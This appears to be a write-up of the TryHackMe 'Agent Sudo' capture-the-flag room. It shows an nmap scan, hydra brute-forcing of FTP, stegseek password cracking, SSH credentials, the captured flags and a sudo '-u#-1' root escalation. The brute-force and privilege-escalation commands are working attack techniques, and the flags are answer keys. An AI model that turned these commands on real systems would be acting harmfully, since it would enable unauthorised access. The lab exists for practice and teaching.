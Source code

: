 ## Enumerate

### How many open ports?

The answer is 3.

```
nmap -p- -T4 -sV --min-rate 5000 -o agent_sudo 10.10.237.117
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-25 18:08 -03
Warning: 10.10.237.117 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.237.117
Host is up (0.27s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.79 seconds
```

### How you redirect yourself to a secret page?

Changing the User-agent to `C` will make it work.

And will get redirected to the page `http://10.10.237.117/agent_C_attention.php` with the following message:

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```

### What is the agent name?

The answer is `agent_C` and his name is `Chris`.

## Hash cracking and brute-force

### FTP password

```bash
nmap --script ftp-brute -p 21 10.10.237.117
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-25 19:17 -03
NSE: [ftp-brute] usernames: Time limit 10m00s exceeded.
NSE: [ftp-brute] usernames: Time limit 10m00s exceeded.
NSE: [ftp-brute] passwords: Time limit 10m00s exceeded.
Nmap scan report for 10.10.237.117
Host is up (0.23s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 2963 guesses in 602 seconds, average tps: 4.8

Nmap done: 1 IP address (1 host up) scanned in 602.87 seconds
```

```bash
hydra -l chris -P /usr/share/seclists/Passwords/500-worst-passwords.txt -t 32 10.10.237.117 ftp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-25 19:40:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 32 tasks per 1 server, overall 32 tasks, 499 login tries (l:1/p:499), ~16 tries per task
[DATA] attacking ftp://10.10.237.117:21/
[21][ftp] host: 10.10.237.117   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-25 19:41:48
```

### Zip file password

???

### steg password

The password is `Area51`

```bash
stegseek --crack cute-alien.jpg /workspace/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

### Who is the other agent (in full name)?

The name is `james`.

```bash
cat cute-alien.jpg.out
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

### SSH password

The password is `hackerrules!`.

## Capture the user flag

### User flag

The user flag is in the home of the user `James`.

```bash
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
james@agent-sudo:~$
```

### What is the incident of the photo called?

`roswell alien autospy`

https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment

## Privileage escalation

### CVE number for the escalation

https://www.exploit-db.com/exploits/47502

### Root flag

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~#
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### (Bonus) Who is Agent R?

The agent R is `DesKel`